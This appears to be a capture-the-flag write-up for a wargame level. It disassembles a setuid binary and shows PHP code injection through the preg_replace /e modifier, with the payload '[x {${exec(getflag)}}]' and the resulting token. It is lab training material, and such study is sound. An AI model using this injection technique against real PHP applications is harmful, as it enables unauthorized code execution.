 ## LEVEL 06

---

In this level we have two files:

```shell
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Both of these files have as owner `flag06` and so there can run `getflag`.

But `level06` file has special permissions.

```shell
$ getfacl level06
# file: level06
# owner: flag06
# group: level06
# flags: s--
user::rwx
group::---
group:level06:r-x
mask::r-x
other::---
```

So we can execute this file.

Now I want to know what this executable does.

```shell
$ gdb -q level06
(gdb) disas main
[...]
0x08048514 <+196>:	call   0x8048430 <execve@plt>
[...]
(gdb) x/32s 0x80487d5
0x80487d5:	 "/usr/bin/php"
0x80487e2:	 "/home/user/level06/level06.php"
```

Now I know that this executable executes the file `level06.php`. Now what this file does ?

```shell
$ cat level06.php
#!/usr/bin/php
<?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    function x($y, $z) {
        $a = file_get_contents($y); // get the file contents from $y
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // replace [x...] with y("")
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    $r = x($argv[1], $argv[2]);
    print $r;
?>
```

This php script have vulnerability with the /e modifier. This means that when preg_replace is called the secoond parameter will be replaced and executed.

For example :
```
preg_replace(..., ..., '"[x salut]"') => "salut" and salut will execute salut like a script.
```

So I want to execute `{${exac_shell(getflat)}}` so the input must be `[x {${exac_shell(getflat)}}]`.

```shell
$ echo '[x {${exec(getflag)}}]' > /tmp/input
$ ./level06 /tmp/input
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

---

*Source :*

*https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex*

*https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4*